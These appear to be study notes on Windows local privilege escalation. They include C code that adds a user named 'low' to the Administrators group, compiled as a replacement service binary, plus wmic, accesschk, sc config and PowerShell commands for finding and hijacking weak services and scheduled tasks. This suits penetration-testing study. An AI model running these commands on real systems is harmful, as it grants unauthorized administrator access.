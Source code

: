 
binary to put in service.exe

```
 cat useradd.c
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
int main ()
{
 int i;
 i=system ("net localgroup administrators low /add");
 return 0;
}
```
 to compile
 
 `i686-w64-mingw32-gcc -o weakservice.exe useradd.c`



Services

Find services running with elevated privileges. Two main categories of vulnerabilities:
	- Weak service path
	- Weak permissions

. . .

Unquoted Service Path

If a privileged service is running and pointing to an unquoted service path with spaces, then Windows has to guess where the executable file is. It guesses in this order:

C:\Services\My | Spaced Directory\Service.exe   
C:\Services\My Spaced | Directory\Service.exe    
C:\Services\My Spaced Directory\Service.exe    

It assumes that each space, from left to right, is the dividing point between the executable and the arguments passed to that executable. So to exploit this situation, you could create a malicious executable and place it at the location below:

C:\Services\My.exe

To find services with spaces and without quotes, run the following CMD command:   
`wmic service get name,startname,startmode,pathname | findstr /i /v "c:\windows" | findstr /v """`
Or try this alternative using regex:   
`wmic service get name,startname,startmode,pathname | findstr /r /c:"\\.* .*exe" | findstr /v """`

. . .

Weak Permissions Around Service   
	- Folder permissions -- replace executable   
	- Service permissions -- change executable path and executing account   
	- Registry permissions -- same through registry   

Folder Permissions   
To check folder permissions:   
`accesschk.exe -dv <username> <folder>`

To exploit, replace the executable with a malicious one

Service Permissions   
To check service permissions:   
`accesschk.exe -cv <username> <service_name>`

To check current service config:   
`sc qc <service_name>`

To modify service config:   
`sc config <service_name> binPath= "c:\path\to\malicious" obj= LocalSystem`

Registry Permissions   
Open regedit and navigate to:   
`Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<service_name>`

. . .

Scheduled Tasks

List scheduled tasks that aren't running as the current user:
get-scheduledtask | select * | where {$_.principal.userid -notlike "*$env:username*"} | format-table -property @{expression={$_.principal.userid}},taskpath,taskname,date

See what files are executed by a task (PowerShell):
$task = get-scheduledtask -taskname <task_name>
foreach ( $action in $task.actions ) { echo $action.execute }

Check permissions on those files:
accesschk.exe -v <username> <file>

If readable, then see what the executable is doing.
If writable, then replace with malicious.

. . .
